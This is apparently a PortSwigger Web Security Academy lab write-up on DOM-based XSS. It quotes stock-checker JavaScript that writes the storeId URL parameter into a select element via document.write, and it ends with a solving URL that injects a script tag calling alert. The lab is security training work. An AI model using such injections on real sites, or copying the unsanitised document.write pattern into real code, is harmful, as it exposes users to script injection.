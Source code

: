 # Lab: DOM XSS in document.write sink using source location.search inside a select element

 This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 

Some js found on vulnerable page:

`var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');`

Looks like there is a `storeId` url param that we can use. I created the following url and `999` was displayed in the form:

`https://ac4d1fd71ffbf804c0862df7006100ad.web-security-academy.net/product?productId=2&storeId=999`


This means that we can inject elements into the DOM through the storeId url param...

Solved the lab with the following url: `https://ac4d1fd71ffbf804c0862df7006100ad.web-security-academy.net/product?productId=2&storeId=999<script>onload=alert()</script>`

